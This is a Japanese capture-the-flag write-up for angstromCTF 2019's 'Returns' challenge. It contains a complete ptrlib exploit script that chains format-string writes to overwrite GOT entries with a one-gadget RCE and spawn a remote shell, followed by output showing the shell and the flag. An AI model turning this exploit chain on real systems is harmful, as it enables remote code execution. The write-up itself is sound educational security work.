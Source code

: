 # [pwn 160pts] Returns - angstromCTF 2019
64bitでSSPが有効です。
```
$ checksec returns
[*] 'returns'
    Arch:	64 bits (little endian)
    NX:		NX enabled
    SSP:	SSP enabled (Canary found)
    RELRO:	Partial RELRO
    PIE:	PIE disabled
```
IDAで読むと、内容はPurchasesと同じであることが分かります。
したがってFSBなのですが、flag関数がないのでシェルは自分の手で奪います。

シェルを取るためには何回かFSBを利用する必要があるので、1回目のFSBでputsのGOTアドレスをmain関数のアドレスに変更します。
また、私はこれ系の問題では同時にlibcのアドレスをリークしますが、別に2回目以降にやっても問題ありません。
で、2回目のFSBで`puts`のFSBをOne Gadget RCEに書き換えたいところなのですが、`puts`のGOTには`main`のアドレスが書かれており、One Gadget RCEのアドレスとは大きく異なるため1回で書き換えることができません。

そこで、今回は`__stack_chk_fail`のGOTを数回かけてOne Gadgetのアドレスに変更します。（要するに`main`で呼ばれない関数のGOTを書き換える。）
`__stack_chk_fail`のpltアドレスは`main`と相対的に近いので、最後に`puts`のGOTアドレスを`__stack_chk_fail@plt`に1発で書き換えることができます。

```python
from ptrlib import *

elf = ELF("./returns")
plt_stack_chk_fail = 0x401050

#libc = ELF("/lib/x86_64-linux-gnu/libc-2.27.so")
#diff = 0xe7
#libc_gadget = 0x4f322
#sock = Process("./returns")

libc = ELF("./libc.so.6")
diff = 0xf0
libc_gadget = 0x4526a
sock = Socket("shell.actf.co", 19307)

# Stage 1
sock.recvuntil("What item would you like to return? ")
payload = b'%17$p...'
payload += str2bytes("%{}c%{}$hn".format(
    (elf.symbol("main") & 0xffff) - 17,
    8 + 3
))
payload += b'A' * (8 - (len(payload) % 8))
payload += p64(elf.got("puts"))[:3]
sock.sendline(payload)
sock.recvuntil("We didn't sell you a ")
addr_libc_start_main = int(sock.recvuntil(".").rstrip(b"."), 16)
libc_base = addr_libc_start_main - libc.symbol("__libc_start_main") - diff
#addr_system = libc_base + libc.symbol("system")
addr_gadget = libc_base + libc_gadget
dump("libc base = " + hex(libc_base))

# Stage 2
sock.recvuntil("What item would you like to return? ")
payload = b'AAAABBBB'
payload += str2bytes("%{}c%{}$hn".format(
    (addr_gadget & 0xffff) - 8,
    11
))
payload += b'A' * (8 - (len(payload) % 8))
payload += p64(elf.got("__stack_chk_fail"))[:3]
sock.sendline(payload)

# Stage 3
sock.recvuntil("What item would you like to return? ")
payload = b'AAAABBBB'
payload += str2bytes("%{}c%{}$hn".format(
    ((addr_gadget >> 16) & 0xffff) - 8,
    11
))
payload += b'A' * (8 - (len(payload) % 8))
payload += p64(elf.got("__stack_chk_fail") + 2)[:3]
sock.sendline(payload)

# Stage 4
sock.recvuntil("What item would you like to return? ")
payload = b'AAAABBBB'
payload += str2bytes("%{}c%{}$hn".format(
    ((addr_gadget >> 32) & 0xffff) - 8,
    11
))
payload += b'A' * (8 - (len(payload) % 8))
payload += p64(elf.got("__stack_chk_fail") + 4)[:3]
sock.sendline(payload)

# Stage 6
_ = input()
sock.recvuntil("What item would you like to return? ")
payload = b'AAAABBBB'
payload += str2bytes("%{}c%{}$hn".format(
    (plt_stack_chk_fail & 0xffff) - 8,
    11
))
payload += b'A' * (8 - (len(payload) % 8))
payload += p64(elf.got("puts"))[:3]
sock.sendline(payload)

# Get the shell!
sock.interactive()
```

いぇい。
```
$ python solve.py 
[+] Socket: Successfully connected to shell.actf.co:19307

[ptrlib] libc base = 0x7f121cb0d000
[ptrlib]$ We didn't sell you a AAAABBBB
...
...
...ÐAAAA@@ with you. [ptrlib]$ ls
[ptrlib]$ flag.txt
returns
returns.c
cat flag.txt
[ptrlib]$ 
actf{no_returns_allowed}
```

# 感想
少し工夫が必要で面白かったです。
